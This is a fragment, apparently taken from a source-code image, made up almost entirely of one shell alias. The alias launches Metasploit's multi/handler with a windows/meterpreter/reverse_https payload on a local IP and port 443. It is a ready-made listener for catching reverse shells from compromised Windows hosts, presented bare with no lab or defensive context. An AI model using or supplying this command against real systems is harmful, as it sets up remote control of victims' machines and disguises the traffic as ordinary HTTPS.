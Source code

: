 alias listener='msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_https; set LHOST 192.168.0.186; set LPORT 443; exploit"'
